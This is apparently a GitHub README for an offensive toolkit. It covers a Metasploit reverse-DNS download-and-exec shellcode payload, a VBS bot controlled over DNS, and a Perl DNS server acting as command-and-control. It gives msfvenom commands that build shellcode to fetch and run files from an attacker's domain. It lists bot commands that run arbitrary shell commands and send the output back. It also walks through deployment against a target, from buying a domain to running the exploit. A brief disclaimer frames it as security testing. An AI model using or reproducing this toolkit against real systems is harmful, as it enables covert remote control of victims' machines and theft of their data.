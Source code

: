 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

# Disclaimer

This project created for testing NextGen security solutions. Not allowed to use in any illegal activities.

## Components

### dns_download_exec_svchost.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

     mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le | sed -s 's/\%/\\/g'

DOMAIN - domain you should control (NS).

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcode will work even on boxes without IPv6 assigned (my previos one - https://www.exploit-db.com/exploits/17326/ required IPv6 address asssigned, so in this, new version we do not need it!). 
In this new version resolved IPv6 addresses will be from reserved block. This shellcode uses IPv6 in ranges from ff00:: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.a.dom.ws - first 238 bytes
 baaa.a.dom.ws - second 238 bytes
 caaa.a.dom.ws - ....
 ....
 abaa.a.dom.ws - ...
 cbaa.a.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.dom.ws)
 Download Speed: ~ 4 Kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for recieveing commands. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to register on C&C by using AD domain/workgroup name and current login, after that it will frequently requesting DNS  for getting commands to execute. If command will be received then result of execution will be sent back in base64 format. 
 
#### Commands
    exit                   - kill process with agent (wscript)
    sleep                  - sleep 30 seconds until next request
    download [part] [file] - download another file [part] - subdomain with file
                                                   [file] - local file name (to create)
                             Download speed here ~ 1 Kb/Sec
                             example: download b drop.exe
                             (will be converted into aaaa.b.dom.ws, baaa.b.dom.ws)
    [any other command]    - will run cmd /c [any other command] 
                             Result of an execution (STDOUT/STDERR) will be returned to the C&C and stored in log file

    
This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode/or bot.vbs (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C and could download next file (see revdns.pl)

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

## Example usage

1) Buy a domain name and host a revdns.pl. Let's say we have zlo.ws and host 11.11.11.11 (as our C&C server)

2) Configure revdns.pl (on 11.11.11.11) 

    @EGGs = ("bot.vbs","drop.exe")
    
So now it "stores" two drop files in a.zlo.ws and in b.zlo.ws

3) Configure revdns.pl 
  
        $DOMAIN = "zlo.ws";               
        $IPA = "11.11.11.11"; 

4) Configure bot.vbs (on 11.11.11.11)

        DOMAIN="zlo.ws" 
        
5) Put drop.exe (on 11.11.11.11) as any binary (better small 8))              
              
6) Run revdns.pl

7) Setup NS for zlo.ws to 11.11.11.11

8) Now we a read, let's generate shellocode

If you want shellcode download and exec bot.vbs
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le
        
If you want shellcode download and exec drop.exe
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=b.0x41.ws EXT=exe -f js_le
        
9) Run exploit with shellocde on target box, and then (if bot.vbs used) wait when BOT from the box will be connected to revdns.pl

10) Use interactive or auto mode of revdns.pl
